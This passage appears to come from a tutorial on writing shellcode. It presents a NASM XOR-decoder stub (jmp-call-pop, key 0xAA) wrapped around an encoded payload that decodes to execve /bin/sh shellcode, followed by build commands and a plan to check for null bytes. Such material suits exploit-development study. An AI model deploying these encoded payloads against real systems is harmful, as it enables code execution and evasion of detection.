 ```asm

call_decoder:

        call decoder

        Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```

And what this means is after 25 you would come off the loop and all
we need to do is 

```
jmp short Shellcode
```

```asm
global _start

section .text
_start:

        jmp short call_decoder

decoder:
        pop esi
        xor ecx, ecx
        mov cl, 25

decode:
        xor byte [esi], 0xAA
        inc esi
        loop decode

        jmp short Shellcode


call_decoder:

        call decoder

        Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```

here we go. Let me go ahead and compile it

```
nasm -f elf32 xor-decoder.nasm
ld -o xor-decoder xor-decoder.o
```

Let's use `objdump` just to verify that we don't have any NULLs in 
there anywhere.
